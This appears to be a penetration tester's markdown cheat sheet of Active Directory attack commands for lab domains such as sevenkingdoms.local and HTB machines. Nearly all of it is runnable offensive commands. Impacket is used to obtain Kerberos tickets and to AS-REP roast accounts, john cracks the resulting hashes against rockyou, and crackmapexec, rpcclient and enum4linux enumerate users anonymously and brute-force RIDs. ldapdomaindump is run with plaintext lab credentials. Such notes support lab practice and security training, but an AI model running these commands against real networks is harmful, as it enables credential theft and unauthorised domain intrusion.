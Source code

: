 # Test kerberos config 
## Get TGT 
### Note: sometimes fqdn doesn't work, just choose the hostname instead in these cases
```
getTGT.py essos.local/khal.drogo:horse
export KRB5CCNAME=khal.drogo.ccache 
GetADUsers.py -all -k  -no-pass  -dc-ip 10.10.11.187 flight.htb/svc_apache 
smbclient.py -k @braavos.essos.local
unset KRB5CCNAME

getTGT.py north.sevenkingdoms.local/arya.stark:Needle
export KRB5CCNAME=arya.stark.ccache
smbclient.py -k -no-pass @winterfell.north.sevenkingdoms.local
smbclient.py -k -no-pass @winterfell

python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py north.sevenkingdoms.local/ -usersfile users.north.sevenkingdoms.local.txt

john -w=/usr/share/wordlists/rockyou.txt brandon.stark.asrep_roasting.hash.txt

crackmapexec smb 192.168.56.11 --users
crackmapexec smb 192.168.56.11 --pass-pol

getTGT.py north.sevenkingdoms.local/brandon.stark:iseedeadpeople

export KRB5CCNAME=brandon.stark.ccache
```
# Enumerate DC’s anonymously
```
crackmapexec smb 192.168.56.10 --users
crackmapexec smb 192.168.56.11 --users
crackmapexec smb 192.168.56.12 --users

enum4linux 192.168.56.11

rpcclient -U "NORTH\\" 192.168.56.11 -N -c 'enumdomusers'

net rpc group members 'Domain Users' -W 'NORTH' -I '192.168.56.11' -U '%'
```

## Anonymously brute-force rid
```
crackmapexec smb 192.168.56.10 -u '' -p '' --rid-brute
```

# Enumerate detailed human readable DC infos in grep, json and html
```
ldapdomaindump -u 'north.sevenkingdoms.local\brandon.stark' -p 'iseedeadpeople' 192.168.56.11
ldapdomaindump -u 'north.sevenkingdoms.local\brandon.stark' -p 'iseedeadpeople' ldaps://10.10.11.202:3269
```
